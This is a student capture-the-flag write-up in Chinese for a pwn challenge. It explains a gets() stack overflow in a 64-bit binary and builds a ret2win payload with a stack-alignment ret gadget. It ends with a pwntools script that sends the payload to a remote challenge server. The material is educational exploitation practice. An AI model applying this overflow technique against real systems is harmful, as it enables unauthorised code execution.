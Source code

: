 ## PWN1
##### 罗承煜 523031910624

#### 程序分析
首先用file命令查看代码相关信息
```
┌──(myvenv)─(kali㉿kali)-[~/Desktop/little_test/pwn1]
└─$ file ./pwn1
./pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=88a5ac248586dee32bdc2b6678fb998673451c55, for GNU/Linux 3.2.0, not stripped
```
64 位程序，采用小端序，动态链接

#### 代码
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[64]; // [rsp+0h] [rbp-40h] BYREF

  gets(v4, argv, envp);
  return 0;
}
```
在 main 中有一个64字节的数组，推测可能存在溢出。

```
int win()
{
  return system("cat flag.txt");
}
```
发现有一个叫```win```的函数，点开看发现内含system系统调用，可以直接输出flag.txt中的信息，所以只要想办法执行```win```函数即可

#### payload构造
先查看win函数的地址：
<center>
    <img src="win.png" alt="win">
</center>
缓冲区大小为 64 字节，则还需覆盖 8 字节的保存 RBP，共需 64 + 8 = 72 字节填充数据
但由于程序是64位的，而且需要调用系统函数，所以要注意rbp的起始位置是16的整数倍，而72=8*9，需要对齐地址，所以在填充```win```函数地址之前要放一个```ret```的地址，以实现对齐rbp的位置
所以payload = 72 * b'a' + p64(0x401179) + p64(0x40117A)

#### 脚本编写
```
from pwn import * 
context.arch = 'amd64'
payload = 72 * b'a' + p64(0x401179) + p64(0x40117A) 

#io = process('./pwn1') 用于本地调试
io = remote('202.120.7.16',24785) 
io.sendline(payload) 
io.interactive()
```
运行即可得到flag